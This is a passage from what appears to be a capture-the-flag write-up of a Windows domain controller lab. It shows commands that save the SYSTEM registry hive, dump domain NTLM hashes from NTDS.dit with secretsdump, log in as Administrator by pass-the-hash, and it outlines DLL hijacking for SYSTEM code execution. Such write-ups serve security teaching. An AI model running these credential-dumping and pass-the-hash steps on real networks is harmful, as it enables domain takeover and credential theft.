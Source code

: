 We also need the SYSTEM hive that contains the encryption key for the NTDS.dit file. The built-in download functionality in Evil-WinRM is kinda slow so it takes a few minutes to download the file.

```
*Evil-WinRM* PS C:\temp> reg save HKLM\SYSTEM c:\temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\temp> download system
Info: Downloading C:\temp\system to system

                                                             
Info: Download successful!
```

Using Impacket's secretsdump script we can open the NTDS.dit and extract the NTLM hashes for the domain accounts. We now have the hash for the Administrator account.

```
snowscan@kali:~/htb/blackfield_demo$ impacket-secretsdump -ntds ntds.dit -system system local
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
[...]
```

We can use Pass-The-Hash again with the admin's hash, get a shell and read the root.txt flag.

```
snowscan@kali:~/htb/blackfield_demo$ evil-winrm -H 184fb5e5178480be64824d4cd53b99ee -u administrator -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
4375a629c7c67c8e29db269060c955cb
```

## Privilege escalation to Administrator - Method #2

With the **Backup Operators** group membership we can write files anywhere on the system, including `C:\Windows\System32`. The Update Session Orchestrator service is vulnerable to DLL hijacking because it tries to load a non-existent DLL (windowscoredeviceinfo.dll). By placing a DLL called windowscoredeviceinfo.dll in the `c:\windows\system32` directory, it will be loaded by the service and we will gain code execution in a SYSTEM context.
